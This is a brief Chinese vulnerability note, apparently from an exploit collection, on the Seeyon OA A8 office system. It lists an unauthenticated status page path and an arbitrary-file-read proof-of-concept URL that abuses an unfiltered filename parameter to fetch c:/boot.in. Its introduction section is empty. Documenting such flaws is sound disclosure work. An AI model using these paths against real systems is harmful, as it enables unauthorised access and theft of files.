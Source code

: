 致远OA A8 未授权访问
====================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8

三、复现过程
------------

该地址为性能监控后台，存在未授权访问

seeyon/management/status.jsp

任意文件读取漏洞,由于对filename未进行过滤，导致可下载读取任意文件

    http://www.0-sec.org/seeyon/main.do?method=officeDown&filename=c:/boot.in
